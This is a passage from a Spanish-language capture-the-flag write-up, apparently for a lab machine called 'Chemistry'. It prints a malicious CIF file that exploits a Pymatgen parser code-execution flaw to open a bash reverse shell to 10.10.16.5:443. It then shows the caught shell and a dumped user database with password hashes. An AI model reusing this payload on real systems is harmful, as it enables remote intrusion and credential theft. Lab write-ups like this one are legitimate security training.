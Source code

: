 Sabiendo esto, nuestro objetivo será intentar ganar acceso a través de una Reverse Shell al equipo víctima.

```bash
❯ cat test.cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.5/443 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Nos pondremos en escucha por un puerto, subiremos nuevamente el nuevo archivo `CIF` malicioso y al visualizarlo desde la página web, verificaremos que hemos recibido el acceso a la máquina víctima correctamente.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.38] 36714
sh: 0: can't access tty; job control turned off
$ hostname
chemistry
$ whoami
adminapp
```

## Initial Access

### Confidential information exposed in a DB file

Revisando el directorio en el cual nos encontramos actualmente con el usuario `adminapp`, revisamos que existe un archivo de una base de datos.

Al verificar el contenido de la base de datos, nos encontramos con usuarios y lo que parecen ser contraseñas en formato hash.&#x20;

```bash
adminapp@chemistry:~/instance$ cat database.db 
�f�K�ytableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
)';indexsqlite_autoindex_user_1user�3�5tablestructurestructureCREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
����42Utest.cifd0c31e9e-b720-4eec-8a50-929380e381e3
Maxel9347f9724ca083b17e39555c36fd9007*e381e3 kristel6896ba7b11a62cacffbdaded457c6d92(
```